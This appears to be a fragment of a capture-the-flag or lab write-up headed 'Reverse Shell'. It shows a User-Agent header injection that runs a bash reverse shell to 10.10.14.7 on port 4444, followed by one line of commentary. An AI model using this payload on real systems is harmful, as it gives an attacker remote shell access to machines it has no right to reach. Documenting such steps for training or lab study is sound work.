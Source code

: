 

# Reverse Shell

```
User-Agent: bash -c  'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'
```

Reverse part should be easy and I think it speaks for itself.

![](vx_images/3777604326814.png)